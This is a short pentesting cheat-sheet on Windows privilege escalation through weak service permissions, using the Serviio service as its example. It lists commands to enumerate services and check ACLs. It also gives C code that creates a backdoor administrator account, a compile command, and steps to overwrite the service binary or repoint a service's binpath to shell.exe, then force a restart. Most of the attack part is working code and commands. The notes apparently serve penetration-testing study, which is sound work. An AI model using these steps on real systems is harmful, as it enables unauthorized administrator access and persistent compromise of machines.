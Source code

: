 ```yaml
---
title: weak services
category: win privesc
order: 1
---
```



[WPE-04 - Weak Service Permissions](https://pentestlab.blog/2017/03/30/weak-service-permissions/)

# serviio case  
## | check services
```
tasklist /V
```
or
```
wmic process get ProcessID,ExecutablePath
```
or:
```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```
serviio looks installed in program files .
this means the service is user-installed and the software developer is in charge of the directory
structure as well as permissions of the software.
## | check permissions
```
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
C:\Program Files\Serviio\bin\ServiioService.exe BUILTIN\Users:(I)(F)
```
it appears that any user (BUILTIN\Users) on the system has full read and
write access to it.
## | masks permissions
* F Full access
* M Modify access
* RX Read and execute access
* R Read-only access
* W Write-only access

## | compile binary to replace serviio  
```
#include <stdlib.h>
int main ()
{
int i;
i = system ("net user evil Ev!lpass /add");
i = system ("net localgroup administrators evil /add");
return 0;
}
```

```
kali@kali:~$i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

## | replace the binary
```
move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"
```

## | option 2 chane registry
```
sc config daclsvc binpath= "C:\Users\user\Desktop\shell.exe"
```
## | restart service
```
net stop Serviio
```
if we dont have access to restart a service we can reboot maybe?

```
shutdown /r /t 0
```
